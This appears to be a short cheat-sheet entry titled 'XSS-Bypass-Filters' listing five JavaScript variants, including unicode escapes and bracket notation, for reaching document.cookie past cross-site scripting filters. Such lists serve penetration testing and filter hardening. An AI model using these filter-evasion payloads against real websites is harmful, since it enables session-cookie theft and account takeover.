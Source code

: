 # XSS-Bypass-Filters

### document.cookie alternative

```
document.cookie 
document['cookie']
with(document)alert(cookie)
doc\u0075ment.cookie
doc\u0075ment['cookie']
```

